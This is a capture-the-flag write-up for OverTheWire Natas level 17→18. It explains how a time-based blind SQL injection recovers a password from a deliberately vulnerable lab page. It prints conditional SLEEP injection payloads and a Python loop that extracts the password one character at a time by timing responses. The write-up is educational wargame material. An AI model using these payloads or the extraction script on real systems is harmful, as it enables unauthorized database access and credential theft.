







# Natas — Level 17 → 18

**Category:** OverTheWire / Natas  
**Difficulty:** Hard  
**Date:** 2026-08-24

## Goal

The same username-existence checker as level 15:

## Solution

The source looked identical to level 15 at first, except every response message was commented out:

    if($res) {
        if(mysqli_num_rows($res) > 0) {
            //echo "This user exists. ";
        } else {
            //echo "This user doesn't exist. ";
        }
    } else {
        //echo "Error in query. ";
    }

No text ever comes back regardless of whether the condition is true or false — the boolean oracle from level 15 is gone. The only thing left that could leak information is timing. Tested with an unconditional delay first:

    natas18" AND SLEEP(10)#

Then a conditional delay to confirm the response time actually depends on the condition:

    natas18" AND IF(1=1,SLEEP(10),0)#     → ~10s delay (true)
    natas18" AND IF(1=20,SLEEP(10),0)#    → no delay (false)

The page itself never showed anything either way — just the empty output box and the "View sourcecode" link, confirming this is purely time-based blind:

With a working true/false timing oracle, wrote a script to recover the password one character at a time, trying every character in the charset for each position until the timing confirms a match:

    payload = (
        f'natas18" AND IF('
        f'BINARY SUBSTRING(password,1,{position})='
        f'"{password + char}",'
        f'SLEEP(2),0)#'
    )

    response = requests.post(
        URL,
        data={"username": payload},
        auth=AUTH,
        timeout=5,
    )

    elapsed = response.elapsed.total_seconds()

    if elapsed > 2:
        password += char
        break

For each position, this checks whether the password's prefix so far (`password + char`) matches the real password's first `position` characters — `BINARY` keeps it case-sensitive. A ~2s response confirms that character is correct, and the loop moves on to the next position.

Ran it and watched each position resolve in turn:

    [+] 1: f
    [+] 2: fD
    [+] 3: fDG
    [+] 4: fDGn
    [+] 5: fDGn5
    [+] 6: fDGn5B
    [+] 7: fDGn5B6
    [+] 8: fDGn5B6G
    ...

All 32 positions eventually resolved to the full password:

## Result

    Password for natas18: [REDACTED]

## Key Takeaway

Removing every visible difference between a true and false query doesn't remove the injection — it just forces the oracle into a different channel. `IF(condition, SLEEP(n), 0)` turns response latency itself into a boolean signal: a slow response confirms the guessed prefix is correct, a fast one means try the next character. No output ever needs to come back for the data to be extractable.
